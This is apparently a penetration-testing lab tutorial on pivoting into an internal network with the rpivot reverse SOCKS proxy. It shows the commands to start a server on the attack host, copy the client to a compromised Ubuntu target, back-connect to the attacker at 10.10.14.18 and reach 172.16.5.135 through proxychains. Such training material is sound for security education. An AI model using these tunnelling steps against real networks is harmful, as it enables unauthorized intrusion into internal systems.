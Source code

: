 
[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (`172.16.5.135`), and we want to access that using the rpivot proxy.

#### Cloning rpivot

  Web Server Pivoting with Rpivot

```shell-session
hidalg0dd@htb[/htb]$ sudo git clone https://github.com/klsecservices/rpivot.git
```

#### Installing Python2.7

  Web Server Pivoting with Rpivot

```shell-session
hidalg0dd@htb[/htb]$ sudo apt-get install python2.7
```

We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`.

#### Running server.py from the Attack Host

  Web Server Pivoting with Rpivot

```shell-session
hidalg0dd@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

#### Transfering rpivot to the Target

  Web Server Pivoting with Rpivot

```shell-session
hidalg0dd@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

#### Running client.py from Pivot Target

  Web Server Pivoting with Rpivot

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

#### Confirming Connection is Established

  Web Server Pivoting with Rpivot

```shell-session
New connection from host 10.129.202.64, source port 35226
```

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.

#### Browsing to the Target Webserver using Proxychains

  Web Server Pivoting with Rpivot

```shell-session
proxychains firefox-esr 172.16.5.135:80
```